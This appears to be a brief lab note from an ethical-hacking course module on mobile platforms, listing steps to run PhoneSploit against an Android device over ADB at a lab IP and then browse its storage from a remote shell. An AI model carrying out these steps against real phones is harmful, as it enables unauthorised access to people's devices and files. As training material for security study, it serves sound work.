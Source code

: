 # 17 - Hacking Mobile

## **Module 17 - Hacking Mobile Platforms**

### **Exploit the Android Platform through ADB using PhoneSploit**

* cd Phonesploit
* python3 -m pip install colorama
* python3 phonesploit.py
* 3
* 10.10.10.14
* 4
* pwd
* cd sdcard
* cd Download
